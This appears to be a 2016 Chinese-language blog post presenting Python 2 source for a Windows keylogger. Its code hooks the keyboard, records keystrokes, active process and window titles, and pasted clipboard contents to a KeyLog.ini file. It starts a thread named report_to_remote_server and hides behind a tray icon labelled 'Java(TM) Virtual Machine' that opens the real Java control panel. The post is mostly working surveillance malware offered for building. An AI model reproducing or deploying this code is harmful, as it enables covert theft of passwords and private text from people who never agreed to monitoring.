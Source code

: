 ```yaml
---
title: py编写键盘记录器初步
author: Semprathlon / Simfae Dean
tags:
	- GUI
	- Python
categories:
	- Programing
date: 2016-09-09 14:01:41
---
```

- 调用win32 API记录键盘事件、窗口事件

 
<pre class="lang:python decode:true " >#
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    # print
    # print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    # print
    Thread(target=report_to_remote_server).start()
    output_file('','KeyLog.ini',"\n[ PID:%s-%s-%s] %s\n" % (process_id,executable.value,windows_title.value,time.strftime("%Y/%m/%d %H:%M:%S")));

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii &gt; 32 and event.Ascii &lt;127:
        # print chr(event.Ascii),
        output_file('','KeyLog.ini',chr(event.Ascii))
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # print "[PASTE]-%s" % (pasted_value),
            output_file('','KeyLog.ini',"[PASTE]-%s" % (pasted_value))
        else:
            # print "[%s]" % event.Key,
            output_file('','KeyLog.ini',"[%s]" % event.Key)
    # 循环监听下一个击键事件
    return True

def RegisterKeyListener():
    # 创建并注册hook管理器
    kl = pyHook.HookManager()
    kl.KeyDown = KeyStroke

    # 注册hook并执行
    kl.HookKeyboard()
    pythoncom.PumpMessages()
</pre> 


但是对于QQEdit.exe，记录值会受到干扰。

- 日志记录

 
<pre class="lang:python decode:true " >def output_file(dir,name,content):
    fileName = ''
    if len(dir)&gt;0:
        fileName = fileName+dir + "/"
    fileName = fileName + name#.encode('utf-8','ignore')
    f = open(fileName,"a")
    f.write(content)
    # print "Output file",fileName
</pre> 


- Tk GUI 

支持异步多线程操作的UI库

 
<pre class="lang:python decode:true " >class Tk_App:
    def __init__(self,master):
        #构造函数里传入一个父组件(master),创建一个Frame组件并显示
        frame = Frame(master)
        frame.pack()
        #创建两个button，并作为frame的一部分
        self.button = Button(frame, text="QUIT", fg="red", command=sys.exit)# frame.quit
        self.button.pack(side=LEFT) #此处side为LEFT表示将其放置 到frame剩余空间的最左方
        self.hi_there = Button(frame, text="Hello", command=self.say_hi)
        self.hi_there.pack(side=LEFT)
        # Thread(target=RegisterKeyListener).start()
        # sys.stdout.flush()

    def say_hi(self):
        print "hi there, this is a class example!"

TRAY_TOOLTIP = 'Java(TM) Virtual Machine'
TRAY_ICON = 'icon.png'


def create_menu_item(menu, label, func):
    item = wx.MenuItem(menu, -1, label)
    menu.Bind(wx.EVT_MENU, func, id=item.GetId())
    menu.AppendItem(item)
    return item


class TaskBarIcon(wx.TaskBarIcon):
    def __init__(self,frame):
        self.frame=frame
        super(TaskBarIcon, self).__init__()
        self.set_icon(TRAY_ICON)
        self.Bind(wx.EVT_TASKBAR_LEFT_DOWN, self.on_left_down)
        mainth.start();

    def CreatePopupMenu(self):
        menu = wx.Menu()
        # create_menu_item(menu, 'Say Hello', self.on_hello)
        create_menu_item(menu,'Control Panel',self.on_control);
        menu.AppendSeparator()
        create_menu_item(menu, 'Exit', self.on_exit)
        # create_menu_item(menu, 'Exit', sys.exit)
        return menu

    def set_icon(self, path):
        icon = wx.IconFromBitmap(wx.Bitmap(path))
        self.SetIcon(icon, TRAY_TOOLTIP)

    def on_left_down(self, event):
        print 'Tray icon was left-clicked.'

    def on_hello(self, event):
        print 'Hello, world!'


    def on_control(self,event):
        # print r'"%JAVA_HOME%\jre\bin\javacpl.exe"'
        # os.system(r'cd /d %JAVA_HOME%');
        os.system(r'""%JAVA_HOME%\jre\bin\javacpl.exe""');
        # print os.path.realpath(sys.argv[0])
        # print os.path.dirname(sys.argv[0])
        # print os.path.basename(sys.argv[0])

    def on_exit(self, event):
        wx.CallAfter(self.Destroy)
        self.frame.Close()
        mainth._Thread__stop()
        # sys.exit()

class App(wx.App):
    def OnInit(self):
        frame=wx.Frame(None)
        self.SetTopWindow(frame)
        TaskBarIcon(frame)
        return True
</pre> 
